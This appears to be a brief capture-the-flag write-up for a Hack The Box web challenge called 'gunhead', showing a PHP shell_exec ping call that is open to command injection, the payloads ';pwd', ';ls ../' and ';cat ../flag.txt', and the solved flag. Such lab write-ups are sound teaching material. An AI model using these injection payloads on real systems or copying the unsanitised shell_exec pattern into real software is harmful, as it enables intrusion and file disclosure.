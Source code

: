 # gunhead

**SOLVED**

`./build-docker.sh` -> http://127.0.0.1:1337

dockerfile -> mariadb, php

fpm? FastCGI Process Manager (FPM) https://www.php.net/manual/en/install.fpm.php

`challenge/models/ReconModel.php` 

```php
return shell_exec('ping -c 3 '.$this->ip);

# payloads:

# /ping ;pwd
# /ping ;ls ../
# /ping ;cat ../flag.txt
```

`HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`